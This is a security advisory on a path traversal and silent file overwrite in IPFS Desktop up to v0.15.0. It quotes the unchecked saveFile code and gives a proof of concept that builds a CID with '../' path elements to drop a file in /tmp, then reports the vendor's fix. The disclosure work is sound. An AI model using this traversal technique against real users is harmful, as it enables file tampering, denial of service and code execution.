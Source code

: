 ```yaml
---
title: "Ipfs Desktop - Path Traversal and arbitrary overwrite"
date: 2021-05-21T11:29:17+02:00

cve:
vendor: Protocol Labs
vendorUrl: ipfs.io
authors: tintinweb
affectedVersions: [ ipfs-desktop <= v0.15.0]
vulnClass: CWE-23

---
```


<font size="8">**Vulnerability Note**</font>

## Summary

IPFS Desktop is a standalone desktop application that bundles go-ipfs with an electron based front-end application.

The desktop application provides an easy way to download IPFS content from within the applications UI, from the application context menu, or a globally installed hotkey (cmd+ctrl+h).


The problem is that the download routing is susceptible to relative path traversal. A malicious CID that contains a relative path traversal may be able to step out of the download directory and **overwrite** a file anywhere on the system. Since writing of the file is performed with the permissions of the currently logged in user and files are overwritten silently, this may easy lead to availability and integrity problems or code execution.

Here's a quick PoC. The user would like to download this malicious CID to `/downloads/`. Instead, a file is silently dropped to `/tmp` (see finder window below).

![ipfs-desktop-path-traversal](https://user-images.githubusercontent.com/2865694/119120821-054a9280-ba2d-11eb-83c7-a506bbbb49a3.gif)


## Details

### Description

IPFS Desktops download CID handler first asks for a destination directory to save files to. A CID, however, may reference a path that is outside of the selected dir by embedding `../` path elements. The download handler does not enforce basedir checks nor sanitize the path as can be seen below. The user selected download path is simply concatenated with the CID's file path. `fs.outputFile()` will silently overwrite the file.

```js
async function saveFile (dir, file) {
  const location = join(dir, file.path)
  await fs.outputFile(location, file.content)
}
```
https://github.com/ipfs/ipfs-desktop/blob/dfad823/src/download-cid.js#L20-L23

To exploit this vulnerability user interaction is required (performing a file-download for a malicious CID). It is trivial to cause DoS scenarios, mess with the integrity of files, or gain code execution (e.g. dropping a reverse shell executed via a service or taskscheduler/startup file) as the effective user account that was running the IPFS Desktop.

### Proof of Concept


1. create the malicious IPFS CID containing the path traversal placing a file in `/tmp/`

```
⇒  OVERRIDE_PATH="../../../../../../../../../../../../tmp/path-traversal-overwrite" node packages/ipfs/src/cli.js add -w README.md
added QmWcwR5BZNcRaH3R36rMxfVrVe4NM2YQgs1DdFc8nBuRbk ../../../../../../../../../../../../tmp/path-traversal-overwrite
added Qmcw4WqifCQcH9xLSkuygu9wwSKzAsJQuCGUgawnMzaexK ../../../../../../../../../../../../tmp
added QmQ7FnJm3giLbBou7g76cNMLZgqc9kdScMSVvnPRJ3JkbB ../../../../../../../../../../../..
added QmbxrahbdpK8GAwZ4xeFnkHPmwEa1Kbc82HJqqBs8bdAkj ../../../../../../../../../../..
added QmdzKKtEnPtXaeW2cXncRtRtqryXHSLSZnKY5eCfy9PLsx ../../../../../../../../../..
added Qma75sSmtexz6mZTvws8cHGaVZUDo59JfKpoupTXd1NqG5 ../../../../../../../../..
added QmXp198gUNnRJ1f8nZ1pi5QxSoVi3JWzadoyn2L8QHL3xM ../../../../../../../..
added QmNW9FwkWFth3oCEg3Lb23pXdn9N2VFvsz4jrVfUTxo4Ep ../../../../../../..
added QmYMVMRMQ5HxPg8t5B8BvqmRLs3p1j5GdNzUXsBgXP34ok ../../../../../..
added Qmb4xy1kDT9Npy5Z2XrhwPEcCHhFe4QTq3C2JVvuiDey5W ../../../../..
added QmXNNFzGn13iJnhHY9zTjJ4NKBvtSqtGSqdNCTNGkt3TC2 ../../../..
added QmPKGBtNQYpQc8XNQUm3Z7i2VEc3ZngQYHPruc35fitteZ ../../..
added QmdXy7kfFruZFoL9jQPfAtYP8pGfsWRRzpqAqCyC26qSpN ../..
added QmWdLbFbDkkXj7Cx6brJ6oTNMSADcSahutMsLWAsj1qikr ..
added QmUoS4btCu8qS1GhY564sLh7LH2GFp5LjHp2Cw3aRBqKCR
```

1. open ipfs-desktop, hit <kbd>CMD + CTRL + H</kbd> (global download hotkey), download malicious CID `QmUoS4btCu8qS1GhY564sLh7LH2GFp5LjHp2Cw3aRBqKCR`

2. select a download directory in `ipfs-desktop`
3. wait for the file to be download

Check `/tmp/` to find the new file `/tmp/path-traversal-overwrite` being created.

```
tintin@takeshii:/tmp|⇒  ls -lsat /tmp/*traversal*
64 -rw-r--r--  1 tintin  wheel  30809 May 21 11:59 /tmp/path-traversal-overwrite
```

### Proposed Fix

- basedir restriction. path sanitizing

## Vendor Response

Vendor response: fixed with [v0.15.1](https://github.com/ipfs/ipfs-desktop/releases/tag/v0.15.1)

### Timeline

```
Jun/16/2021 - initial disclosure vendor
Jun/17/2021 - fixed with v0.15.1
```

